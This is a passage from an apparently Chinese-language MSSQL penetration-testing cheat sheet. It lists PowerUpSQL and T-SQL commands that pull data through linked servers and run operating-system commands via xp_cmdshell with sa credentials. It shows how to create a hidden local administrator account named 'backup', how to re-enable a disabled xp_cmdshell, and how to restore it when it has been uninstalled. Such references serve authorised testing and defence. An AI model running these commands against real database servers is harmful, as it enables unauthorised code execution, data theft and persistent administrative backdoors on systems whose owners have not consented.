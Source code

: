 ```ps1
Get-SQLQuery -Instance "<DBSERVERNAME\DBInstance>" -Query "select * from openquery(`"<DatabaseLinkName>`",'select TOP 5 * from <DatabaseNameFromPreviousCommand>.dbo.<TableNameFromPreviousCommand>')" -Verbose
```

### 收集选定链接列的条目


```ps1
Get-SQLQuery -Instance "<DBSERVERNAME\DBInstance>" -Query "select * from openquery(`"<DatabaseLinkName>`"'select * from <DatabaseNameFromPreviousCommand>.dbo.<TableNameFromPreviousCommand> where <ColumnNameFromPreviousCommand>=<ColumnValueFromPreviousCommand>')" -Verbose
```


## 通过xp_cmdshell执行命令

> 自SQL Server 2005起，xp_cmdshell默认被禁用

```ps1
PowerUpSQL> Invoke-SQLOSCmd -Username sa -Password Password1234 -Instance "<DBSERVERNAME\DBInstance>" -Command whoami

# 创建并添加本地用户backup到本地管理员组：
PowerUpSQL> Invoke-SQLOSCmd -Username sa -Password Password1234 -Instance "<DBSERVERNAME\DBInstance>" -Command "net user backup Password1234 /add'" -Verbose
PowerUpSQL> Invoke-SQLOSCmd -Username sa -Password Password1234 -Instance "<DBSERVERNAME\DBInstance>" -Command "net localgroup administrators backup /add" -Verbose
```

* 手动执行SQL查询

  ```sql
  EXEC xp_cmdshell "net user";
  EXEC master..xp_cmdshell 'whoami'
  EXEC master.dbo.xp_cmdshell 'cmd.exe dir c:';
  EXEC master.dbo.xp_cmdshell 'ping 127.0.0.1';
  ```

* 如果需要重新激活xp_cmdshell（自SQL Server 2005起默认被禁用）

  ```sql
  EXEC sp_configure 'show advanced options',1;
  RECONFIGURE;
  EXEC sp_configure 'xp_cmdshell',1;
  RECONFIGURE;
  ```

* 如果该过程被卸载

  ```sql
  sp_addextendedproc 'xp_cmdshell','xplog70.dll'
  ```


## 扩展存储过程
